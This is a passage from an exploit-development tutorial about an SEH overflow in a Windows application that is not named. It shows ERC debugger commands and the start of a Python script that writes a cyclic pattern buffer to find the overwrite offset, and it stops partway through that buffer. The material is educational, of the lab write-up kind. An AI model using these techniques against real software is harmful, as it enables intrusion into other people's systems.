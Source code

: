 SEH handler overwritten with Unicode As

Now that we have confirmed the vulnerability exists, it is time to begin developing a full exploit.

### Developing the Exploit

At the present moment we know the application is vulnerable to an SEH overflow. We should initially set up our environment, so all our output files are generated in an easily accessible place.

**Command:**\
ERC --Config SetWorkingDirectory \<C:\Wherever\you\are\working\from>

&#x20;Setting the Working Directory

Now we should set an author so we know who is building the exploit.

**Command:**\
ERC --Config SetAuthor \<You>

Setting the Author

Now we must identify how far into our buffer the SEH overwrite occurs. For this we will execute the following command in order to generate a pattern using ERC:

**Command:**\
ERC --pattern c 5000

Output of ERC --Pattern c 700

We can now add this into our exploit code either directly from the debugger or from the Pattern\_Create\_1.txt file in our working directory to give us exploit code that looks something like the following.

```

1.	f = open("crash-2.txt", "wb")  
2.	  
3.	buf = b""  
4.	buf += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"  
5.	buf += b"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"  
6.	buf += b"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"  
7.	buf += b"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"  
8.	buf += b"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"  
9.	buf += b"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"  
10.	buf += b"r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"  
11.	buf += b"5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4"  
12.	buf += b"Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3B"  
13.	buf += b"a4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd"  
14.	buf += b"3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2"  
15.	buf += b"Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1B"  
16.	buf += b"j2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm"  
17.	buf += b"1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0"  
18.	buf += b"Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9B"  
```